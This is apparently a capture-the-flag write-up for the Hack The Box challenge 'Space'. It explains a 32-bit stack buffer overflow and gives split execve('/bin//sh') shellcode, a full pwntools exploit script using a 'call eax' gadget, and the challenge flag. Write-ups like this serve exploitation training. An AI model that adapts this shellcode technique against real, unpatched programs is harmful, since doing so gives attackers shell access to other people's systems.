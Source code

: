 # Space
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6d12d4a-12a8-4947-84e4-f57fc5526462)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Buffer Overflow.
3. Small space after EIP.
4. Crafting custom shellcode.

## DESCRIPTION:
roaming in a small space


## STEPS:
1. In this challenge we're given a 32 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0720a66d-d835-43c6-a70b-aa9c354ba5ba)


> BINARY PROTECTIONS --> no protection enabled.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6e3fe610-f9db-4552-9c18-7a74fe05c4c7)


2. After decompiled the binary, we know the vuln is at the sym.vuln where it does strcpy from our input at the sym.main which held up to 31 buffers.
3. But at sym.vuln, our buffers copied to a variable with 10 buffers. Obviously it trigger BOF.
4. The problem is there is no interesting function to jump to and remembering the NX is disabled, the concept here must be `ret2reg`.

### PROBLEMS

- Well it seems we don't have enough spaces after the EIP for our shellcode.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b2c624ff-951f-4f0a-8dd5-420034c2204d)


- Knowing this, hence we need to divide our shellcode. The first one to reach the EIP then use `jmp esp` or `call eax` register then send the other after that which jump to the 11th offset at the stack.
- Then execute our shellcode.


### SHELLCODE

> 1st shell

```asm
xor ecx, ecx
push ecx
push 0xb 
pop eax
jmp $+11
```

> 2nd shell

```asm
xor edx, edx
push 0x68732f2f # //sh
push 0x6e69622f # bin
mov ebx, esp
int 0x80
nop 
nop 
```

#### NOTES: in 32 bit, we use ebx , ecx and edx instead of rdi, rsi, rdx. Also don't forget the order 👍.

5. Actually the intended solution must be using `jmp esp` i guess since we want to jump onto the the 11th offset, but i managed to solve it using `call eax` (ret2reg).

> FULL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './space'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()
call_eax = 0x08049019
log.info('CALL_EAX gadget --> %#0x', call_eax)

# 8 bytes
# we can't do mov eax, 0xb. Because the length shall be 10
# why 11?? Because distance from first A to last A is 11 
# it will loop through the last offset before 8 bytes space
first_shell = """
xor ecx, ecx
push ecx
push 0xb 
pop eax
jmp $+11
"""
shell_1 = asm(first_shell)
print('[INFO] --> LENGTH SHELL 1',len(shell_1))

# 18 bytes
# adding 2 NOPs as paddings so our shellcode length shall be exact 18.
second_shell = """
xor edx, edx
push 0x68732f2f # //sh
push 0x6e69622f # bin
mov ebx, esp
int 0x80
nop 
nop 
"""
shell_2 = asm(second_shell)
print('[INFO] --> LENGTH SHELL 2',len(shell_2))

p = flat([
    shell_2,
    call_eax,
    shell_1
])

sh.sendlineafter(b'>',p)
sh.interactive()
```

> TEST LOCALY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd458eab-5cff-4e1e-989b-4f03d8ffaa96)


> TEST REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/982cddd9-2b93-4fdd-80c4-c040702cc703)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bcc1afa2-6f00-4665-b555-d888cecd3c69)


6. Got the flag!

## FLAG

```
HTB{sh3llc0de_1n_7h3_5p4c3}
```

